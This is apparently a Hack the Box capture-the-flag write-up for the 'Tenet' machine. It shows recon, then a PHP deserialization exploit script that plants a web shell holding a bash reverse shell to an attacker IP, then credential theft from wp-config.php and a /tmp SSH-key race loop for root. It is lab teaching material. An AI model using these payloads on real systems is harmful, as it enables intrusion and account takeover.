 +++
author = "Nick"
categories = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
date = 2021-06-12T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/06/tenet.png"
slug = "hack-the-box-tenet"
summary = "Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!"
tags = ["hack the box", "Linux", "medium", "serialization", "PHP", "PHP Deserialization", "ssh"]
title = "Hack the Box - Tenet"

+++


Welcome back! Today we will be doing the Hack the Box machine - Tenet. This is listed as a medium Linux box, let's see what's in store!

As usual, start the recon with `nmap`.

```
Nmap scan report for 10.10.10.223
Host is up (0.048s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Not much of a path forward, let's see what we can find on port 80. When we browse over to port 80, we see a standard `Apache` install page. We'll start sniffing around with `gobuster` to see what we can find.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

Nothing out of the ordinary was found, damn. A quick vhost enumeration with `nmap` didn't reveal anything either. In this case we're just going to add tenet.htb to our host lists to see if anything resolves.

Sure enough we get a blog site. We'll repeat the same `gobuster` command from about but using our vhost.

Command:
`gobuster dir -u 'http://10.10.10.233' -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt -t 60`

The enumeration shows us that we've working with a Wordpress site. Digging around gives us two users, `protagonist` and `neil`. Neil gives us one comment in particular that is interesting:

![](/images/2021/06/image.png)

So, we should start looking for `.php` and `.bak` / `.back` files. As well as any items named `sator`. Since this list is small, we can check these by hand by checking our vhost and IP for these file names. The reason we do both IP and Vhost is because there are possibly more Vhosts than we know that could resolve to the IP.

Sure enough, the `10.10.10.223/sator.php` finds a hit:

![](/images/2021/06/image-1.png)

Along side that, so does the `.bak`:

![](/images/2021/06/image-2.png)

Now that we've downloaded the file, we can take a look at it.

![](/images/2021/06/image-3.png)

Looks like we're taking a repo, `arepo`, which is serialized and unserializing it. Looks like we're using a magic method here, `__destruct()`. `PHP Deserialization` is a common thing to see in HTB as well as other CTF's. It's also still realivant to real life applications (unfortunately). Here's some more info on the topic:

* https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/PHP.md
* https://kishanchoudhary.com/OSWE/php_obj.html
* https://notsosecure.com/remote-code-execution-via-php-unserialize/

We have a few ways to leverage this. We can create a script to call to the `sator.php` URL and run it with PHP locally to gain an RCE that way, or we can can create a serialized value and feed it to `sator.php` URL, let it create the RCE file and then browse to it.

First, let's create the script, which we just copy the first part of the above script:

```php
<?php
class DatabaseExport
{
    public $user_file = 'tenet_5.php';
    public $data = '<?php exec("/bin/bash -c \'bash -i > /dev/tcp/10.10.14.89/7070 0>&1\'"); ?>';

        public function __destruct()
        {
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated';
        }
}

$url = 'http://10.10.10.223/sator.php?arepo=' . urlencode(serialize(new DatabaseExport));
$r = file_get_contents("$url");
$r = file_get_contents("http://10.10.10.223/tenet_5.php");

?>
```
I really dislike `PHP`, just saying. What we did here is simply added a `URL` variable and a `response` variable to take our serialized data and feed it to the endpoint. You could just get the output of the function and `curl` to the endpoint to trigger it as well.

Command:
`nc -lvnp 7070`
`php tenet.php`

![](/images/2021/06/tenetshell.gif)

We get a shell back! Now we can start to look around and enumerate internally. Right where we land when we get a shell, we see a directory called `Wordpress`. Inside there's the `wp-config.php` file, with credentials for `neil`.

![](/images/2021/06/image-4.png)

Now we can try to login via `ssh` as `neil`. It works, we're in as `neil` and grab the `users.txt` flag! The first thing we always do once we get a user foothold on a box is `sudo -l`. This gives us an idea:

![](/images/2021/06/image-5.png)

We check the script, the `addKey()` function is our target in this case.

![](/images/2021/06/image-6.png)

We can write a `while` loop to keep adding our `ssh` key to any ssh files in tmp. First generate a new ssh key:

Command:
`ssh-keygen`

Now we can write our script:

```bash
while true; do echo "SSH-KEY-HERE" | tee /tmp/ssh* > /dev/null; done
```

Once we run the command, we open a new terminal and try to connect with our new key.

Command:
`ssh -i id_rsa root@tenet.htb`

Boom, we get in!

![](/images/2021/06/image-7.png)

Another fun box down! If you found this write-up useful, send some respect my way:[https://app.hackthebox.eu/profile/95635](https://app.hackthebox.eu/profile/95635)

